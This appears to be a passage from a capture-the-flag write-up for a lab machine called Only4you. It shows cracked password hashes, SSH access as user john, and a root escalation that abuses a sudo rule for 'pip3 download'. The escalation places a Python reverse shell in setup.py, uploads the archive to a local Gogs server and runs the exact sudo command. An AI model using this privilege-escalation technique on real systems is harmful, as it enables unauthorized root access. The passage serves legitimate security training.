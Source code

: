 **Cracked:**

```
8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918:admin
a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6:ThisIs4You
```

So we get new creds: **john:ThisIs4You**

# SSH - john

**john:ThisIs4You** works for SSH.

`user.txt: <redacted>`

`sudo -l`

```
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```

# Escalating to root

We can log into **Gogs** on :3000 using **john:ThisIs4You**.

First let's prepare a malicious .tar.gz for pip3.

- put a Python reverse shell into **setup.py**
- move **setup.py** to **arbitrary-directory/**
- `tar -czvf mal.tar.gz arbitrary-directory/`
- upload the file to the **Test** repo on **Gogs**
- change the repo's status to public in settings

Then run:

`sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/Test/raw/master/mal.tar.gz`

And a reverse shell comes back.

`root.txt: <redacted>`
